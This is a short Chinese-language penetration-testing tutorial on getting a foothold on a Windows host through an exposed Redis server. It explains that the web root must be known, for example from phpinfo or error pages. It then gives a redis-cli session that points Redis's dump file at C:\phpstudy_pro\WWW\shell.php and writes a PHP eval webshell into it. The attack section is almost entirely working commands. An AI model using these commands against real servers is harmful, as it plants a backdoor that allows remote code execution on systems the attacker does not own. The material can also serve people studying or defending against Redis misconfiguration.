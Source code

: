 ## Windows 获取权限

### Webshell

<a-checkbox checked>攻击成功的前提为：需要准确的知道Web目录位置</a-checkbox></br>

<a-checkbox checked>可通过 phpinfo 或者 网站报错得知</a-checkbox></br>

![img](../../../.vuepress/public/img/1628609553023-5e320f71-cea1-4ade-ad72-f1e0f51f7f11-20220415143203567.png)

这里测试的目标路径为：`C:\phpstudy_pro\WWW`

```php
192.168.0.123:6379> config set dir C:\phpstudy_pro\WWW
OK
192.168.0.123:6379> config set dbfilename shell.php
OK
192.168.0.123:6379> set test "<?php @eval($_POST['shell'])?>"
OK
192.168.0.123:6379> save
OK
```

